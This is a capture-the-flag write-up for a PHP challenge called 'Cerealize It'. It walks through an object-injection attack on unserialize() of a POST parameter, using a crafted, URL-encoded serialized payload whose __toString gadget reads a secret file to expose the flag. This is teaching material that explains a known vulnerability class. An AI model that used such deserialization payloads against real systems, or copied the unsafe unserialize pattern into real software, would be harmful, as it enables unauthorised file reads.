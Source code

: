 # Cerealize It
---
## Description
Cerealize is described as Wikipedia for cereals. The cerealize page states:
> Since we're still in development, we don't have a fancy frontend for submitting a new cereal for the archive. Instead, just give us a POST request with a "cereal" parameter. Just for fun, why don't you serialize it? We've open-sourced the project, so you can see what format we're expecting by checking out the code.
---
## Info Gathering
cerealize.php contains:
```
{
	class cereal{
		public $cereal_name;
		public $cereal_flavor;
		public $cereal_brand;

		public function submission_result(){
			echo "Thanks for submitting a new cereal for our archive!";
		}
		public function display_submission(){
			echo "You told us about" . $this->cereal_name . "; we'll see if it's in our archive! If not, we'll add it.";
		}
	}

	$cereal_submission = unserialize($_POST['cereal']);
	if ($cereal_submission){
		$cereal_submission->submission_result();
		if($cereal_submission->cereal_name && $cereal_submission->cereal_flavor && $cereal_submission->cereal_brand){
			$cereal_submission->display_submission();
		}
	}
	else{
		echo "Sorry, something's wrong with your cereal submission. Please try again.";
	}
}
```

It also includes archive_reader.php, which contains:
```
{
	// all the secret proprietary cereals we signed NDAs to try are stored in a file
	// at /var/www/secret_archive.txt -- be sure to keep those hidden when we open-source our project!
	class secret_cereal_archive{
		public function __tostring(){
			return file_get_contents($this->filename);
		}
              }
}
```
Based on the above, we want to:
* POST a 'cereal' parameter 
* Somehow, connect the 'cereal' parameter to the secret_cereal_archive class because it can open a file, presumably the /var/www/secret_archive.txt file. 
---
## Attempt \#1 : POSTing a random cereal value
First, we want to see if we can successfully POST a value for cereal. I used ZAP's Request Editor to modify the initial GET request for cerealize.php and change its method to POST. Then I added a token value in the parameter, `cereal=A` and submitted the request.

Initially, this failed with an error on this line, indicating the cereal parameter was not found. 
```
{
	$cereal_submission = unserialize($_POST['cereal']);
}
```

This was very puzzling since I _had_ sent the parameter. After some discussion on the forums, it turns out I needed to set the Content-Type to application/x-www-form-urlencoded. Per https://stackoverflow.com/questions/4007969/application-x-www-form-urlencoded-or-multipart-form-data, “; if you have binary (non-alphanumeric) data (or a significantly sized payload) to transmit, use multipart/form-data. Otherwise, use application/x-www-form-urlencoded.”
 
After this change, I was able to send the request again, and it failed in the following line, indicating it had found the cereal paramter but the format was incorrect. Progress!
```
{
		if($cereal_submission->cereal_name && $cereal_submission->cereal_flavor && $cereal_submission->cereal_brand){
}
```

## Attempt \#2: POSTing a good cereal value
Looking at cerealize.php, it expects a well-formed cereal class with cereal_name and cereal_flavor member variables. 

To test this, we go to an online PHP serializer website like https://onlinephp.io/code/fromFunction/serialize?e=1&v=0:
There, we give the definition for the cereal class, then instantiate it with nice values. 
```
{
	class cereal{
			public $cereal_name;
			public $cereal_flavor;
			public $cereal_brand;
	
			public function submission_result(){
				echo "Thanks for submitting a new cereal for our archive!";
			}
			public function display_submission(){
				echo "You told us about" . $this->cereal_name . "; we'll see if it's in our archive! If not, we'll add it.";
			}
		}
	$a = new cereal;
	$a->cereal_name='A';
	$a->cereal_flavor='B';
	$a->cereal_brand='C';
	echo serialize($a);
}
```
This gives a value `O:6:"cereal":3:{s:11:"cereal_name";s:1:"A";s:13:"cereal_flavor";s:1:"B";s:12:"cereal_brand";s:1:"C";}`

We want to HTML encode this, so we go to an encoder/decoder (in my case, I used ZAP's Encoder/Decoder utility). This gives
```
{
O%3A6%3A%22cereal%22%3A3%3A%7Bs%3A11%3A%22cereal_name%22%3Bs%3A1%3A%22A%22%3Bs%3A13%3A%22cereal_flavor%22%3Bs%3A1%3A%22B%22%3Bs%3A12%3A%22cereal_brand%22%3Bs%3A1%3A%22C%22%3B%7D
}
```

Back on the ZAP Request Editor, we replace the value for the cereal parameter with the block above, and send it. This time, we get the happy message "You told us aboutA; we'll see if it's in our archive!".

## Attempt \# 3: Sending a cereal value to show the flag
Now, we want to get the flag value. It seems like we want the cereal_name to connect to secret_archive_reader, and we want to create secret_archive_reader to read the secret file by setting its ($this->filename) member variable. This is not hard because variables are public by default in PHP, so we can instantiate the secret_archive_reader and set it directly. 

Back at the online serializer, we supply the class definitions it needs and create the cereal as before, except this time cereal_name points to an secret_cereal_archive instance. 
```
{
<?php 
	class secret_cereal_archive{
			public function __tostring(){
				return file_get_contents($this->filename);
			}
		}
	
	class cereal{
			public $cereal_name;
			public $cereal_flavor;
			public $cereal_brand;
	
			public function submission_result(){
				echo "Thanks for submitting a new cereal for our archive!";
			}
			public function display_submission(){
				echo "You told us about" . $this->cereal_name . "; we'll see if it's in our archive! If not, we'll add it.";
			}
		}
	$b = new secret_cereal_archive;
	$b->filename = "/var/www/secret_archive.txt";
	
	$a = new cereal;
	$a->cereal_name=$b;
	$a->cereal_flavor='B';
	$a->cereal_brand='C';
	echo serialize($a);
}
```

Running this returns `O:6:"cereal":3:{s:11:"cereal_name";O:21:"secret_cereal_archive":1:{s:8:"filename";s:27:"/var/www/secret_archive.txt";}s:13:"cereal_flavor";s:1:"B";s:12:"cereal_brand";s:1:"C";}. `

Back to ZAP, we run it through the Encode/Decode:
```
{
O%3A6%3A%22cereal%22%3A3%3A%7Bs%3A11%3A%22cereal_name%22%3BO%3A21%3A%22secret_cereal_archive%22%3A1%3A%7Bs%3A8%3A%22filename%22%3Bs%3A27%3A%22%2Fvar%2Fwww%2Fsecret_archive.txt%22%3B%7Ds%3A13%3A%22cereal_flavor%22%3Bs%3A1%3A%22B%22%3Bs%3A12%3A%22cereal_brand%22%3Bs%3A1%3A%22C%22%3B%7D
}
```
Then send it on the request - voila, the flag reminding us not to serialize user input, `flag{d0nt_d3s3r1l1z3_us3r_1nput}`
